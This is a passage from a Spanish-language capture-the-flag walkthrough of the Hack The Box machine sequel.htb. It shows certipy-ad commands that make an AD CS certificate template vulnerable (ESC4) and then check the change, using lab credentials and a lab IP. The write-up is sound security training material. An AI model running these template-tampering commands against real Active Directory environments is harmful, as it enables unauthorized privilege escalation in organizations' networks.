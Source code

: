 <figure><img src="../../.gitbook/assets/3511_vmware_w3TRjCIhHn.png" alt="" width="563"><figcaption></figcaption></figure>

Procederemos a realizar la explotación del ESC4, para ello lo primero será guardar la antigua configuración, editarla y hacerla vulnerable a través del siguiente comando.

{% code overflow="wrap" %}
```bash
certipy-ad template -u 'ca_svc@sequel.htb' -p 'Password01!' -template DunderMifflinAuthentication -save-oid -dc-ip 10.10.11.51
```
{% endcode %}

<figure><img src="../../.gitbook/assets/3512_vmware_8ulXBEQH9L.png" alt=""><figcaption></figcaption></figure>

Revisaremos nuevamente que el Template ha sido modificado correctamente.

{% code overflow="wrap" %}
```bash
certipy-ad find -u 'ca_svc@sequel.htb' -p 'Password01!' -dc-ip 10.10.11.51 -vulnerable -stdout
```
{% endcode %}
